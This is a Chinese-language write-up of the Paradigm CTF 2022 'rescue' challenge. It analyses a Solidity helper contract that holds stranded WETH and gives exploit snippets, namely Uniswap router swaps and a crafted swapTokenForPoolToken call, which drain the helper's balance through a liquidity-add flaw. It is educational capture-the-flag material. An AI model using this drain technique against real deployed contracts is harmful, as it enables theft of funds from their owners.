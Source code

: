 # rescue

>  I accidentally sent some WETH to a contract, can you help me?

## 题目分析

```solidity
contract Setup {
    
    WETH9 public constant weth = WETH9(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    MasterChefHelper public immutable mcHelper;

    constructor() payable {
        mcHelper = new MasterChefHelper();
        weth.deposit{value: 10 ether}();
        weth.transfer(address(mcHelper), 10 ether); // whoops
    }

    function isSolved() external view returns (bool) {
        return weth.balanceOf(address(mcHelper)) == 0;
    }
    
}
```

`MasterChefHelper`合约中有10个`WETH`代币，题目要求我们把`MasterChefHelper`合约中的`WETH`全部转出。

而`MasterChefHelper`合约中只有一个非`view`函数，即`swapTokenForPoolToken`函数。

```solidity
function swapTokenForPoolToken(uint256 poolId, address tokenIn, uint256 amountIn, uint256 minAmountOut) external {
        (address lpToken,,,) = masterchef.poolInfo(poolId);
        address tokenOut0 = UniswapV2PairLike(lpToken).token0();
        address tokenOut1 = UniswapV2PairLike(lpToken).token1();

        ERC20Like(tokenIn).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut0).approve(address(router), type(uint256).max);
        ERC20Like(tokenOut1).approve(address(router), type(uint256).max);
        ERC20Like(tokenIn).transferFrom(msg.sender, address(this), amountIn);

        // swap for both tokens of the lp pool
        _swap(tokenIn, tokenOut0, amountIn / 2);
        _swap(tokenIn, tokenOut1, amountIn / 2);

        // add liquidity and give lp tokens to msg.sender
        _addLiquidity(tokenOut0, tokenOut1, minAmountOut);
    }
```

该`swapTokenForPoolToken`函数接受4个参数：

- poolId：查询[`SushiSwap`的`MasterChef`合约](https://etherscan.io/address/0xf942dba4159cb61f8ad88ca4a83f5204e8f4a6bd)中的流动池对应的`lpToken`的编号
- tokenIn：要转入合约中的代币合约地址
- amountIn：要转入合约中代币的数量
- minAmountOut：获得对应`lpToken`的最小数量

函数的功能是将用户指定的代币`tokenIn`，使用`SushiSwap`的`UniswapV2Router02`的swap功能兑换出指定`poolId`流动池的两种代币（各自兑换`amountIn`一半数量），然后再将兑换出的代币再加入到流动中。



## 解题思路

题目最后要求我们将`MasterChefHelper`合约中的`WETH`代币余额变为0。我们可以通过`swapTokenForPoolToken`函数将`MasterChefHelper`合约拥有的`WETH`代币与另外一种代币重新注入流动性。以此将`MasterChefHelper`合约拥有的`WETH`代币全部转走。

关键就变成了在`_addLiquidity(tokenOut0, tokenOut1, minAmountOut)`时，保证`tokenOut0`或` tokenOut1`中有一个是`WETH`代币，并且另一种代币的数量要保证至少可以全部消耗完`WETH`代币（保证另一种代币的数量按比例大于10`WETH`的数量就好）。

另外，还要保证`tokenIn`代币不能与上述的另一种代币是一种代币。因为`UniswapV2Library`合约的`sortTokens`函数要求`require(tokenA != tokenB, 'UniswapV2Library: IDENTICAL_ADDRESSES')`

所以，我使用`usdc`和`usdt`以及`weth`三种代币完成。

我先兑换出足够消耗10个`weth`的`usdt`。用12个`weth`是以防万一不够。

```solidity
// 用12weth换出usdt，给mcHelper
path[0] = address(weth);
path[1] = usdt;
router.swapExactTokensForTokens(
	12 ether,
	0,
	path,
	address(mcHelper),
	block.timestamp
);
```

然后再兑换出一些`usdc`，数量无所谓，反正最后注入流动性的是`usdt`和`weth`。

```solidity
// 用1weth换出usdc，给本合约
path[0] = address(weth);
path[1] = usdc;
router.swapExactTokensForTokens(
	1 ether,
	0,
	path,
	address(this),
	block.timestamp
);
```

最后，去查下weth和usdt的池子的编号是多少？，结果是0。（写个脚本或者手动查查，不难查）

```solidity
uint256 usdcAmountIn = 50 * 10 ** 6;//数量随意，注意下代币精度就行
mcHelper.swapTokenForPoolToken(0, usdc, usdcAmountIn, 0);// minAmountOut是0，因为我们只需要把weth转走就好，至于lptoken要多少，无所谓
```

![solved](./images/solved.png)



## 参考资料

https://github.com/paradigmxyz/paradigm-ctf-2022

[PARADIGM CTF 2022题目分析(1)-resuce分析](https://mp.weixin.qq.com/s?__biz=Mzg4MDcxNTc2NA==&mid=2247483840&idx=1&sn=182d06a3ca05d2a33c2dad20f8f494e9&chksm=cf71b35bf8063a4da78d083b81014754aaf2db565d70bdb354aea93ff80c5c9e1b014902eb4e&scene=178&cur_album_id=2556040001080557569#rd)